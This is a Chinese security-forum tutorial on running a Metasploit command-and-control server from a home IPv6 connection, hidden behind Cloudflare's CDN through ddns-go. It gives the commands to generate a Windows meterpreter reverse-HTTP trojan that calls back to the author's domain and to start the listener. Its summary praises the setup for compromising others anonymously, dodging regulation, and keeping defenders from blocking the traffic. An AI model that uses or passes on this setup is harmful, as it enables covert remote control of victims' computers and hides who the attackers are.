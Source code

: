 

# 使用家用 IPv6 设备来上线接管电脑 - 先知社区

使用家用 IPv6 设备来上线接管电脑



# 前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# 方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[![](assets/1701606762-a34266601607ccb21c0bb8f293eeba3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173014-16eb9a9c-7c87-1.png)

# 准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## 检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[![](assets/1701606762-4edccf3093a326c218d97bfa476f8313.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173023-1c7e2e8e-7c87-1.png)

## 安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[![](assets/1701606762-65ead7fdace32a9ece07b5862afec859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173114-3ad27638-7c87-1.png)

## 创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[![](assets/1701606762-fa71b01bf78f7e1a41405f3b102e7bc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173102-338d6176-7c87-1.png)

## 安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```bash
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[![](assets/1701606762-a85e082edf505f5fbf95aba3589cecd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173054-2ed4e41a-7c87-1.png)

最后配置一下要 IPv6 对应解析的域名即可：

[![](assets/1701606762-6b333f100e47526db59b244b8f2a84f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173513-c96716b0-7c87-1.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[![](assets/1701606762-5f47a0eb10530a4771a33450f1779b9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173125-418fcf3e-7c87-1.png)

## 配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[![](assets/1701606762-bb3d5c974d2a246779a1b0a00b1039ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173141-4b1818b8-7c87-1.png)

然后手动关闭一下 CF 的 SSL 加密：

[![](assets/1701606762-b54ffb86e4707f002fd8f88443eea5d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173147-4eb264a6-7c87-1.png)

## 验证连通性

首先在服务器上借助 Python3 监听应该 IPv6 的 80 端口：

```bash
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[![](assets/1701606762-20654615f1564b90661508cdfc868cf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173203-583ebdf8-7c87-1.png)

# 操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## 生成 Payload

我们使用 meterpreter\_reverse\_http 的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```bash
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[![](assets/1701606762-42755ac38800b21692178c6d62433b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173215-5ef8cc60-7c87-1.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```bash
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## 监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```bash
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[![](assets/1701606762-4748476a9d694288e7247b7c33939b9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173240-6e11a280-7c87-1.png)

## 上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[![](assets/1701606762-cc526aefba97ae4f0fd02db0ea3b3a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173231-68e6a030-7c87-1.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[![](assets/1701606762-f3fcdc9d786e94c34c6d051f29f74398.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173250-743ab7b4-7c87-1.png)

# 方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的
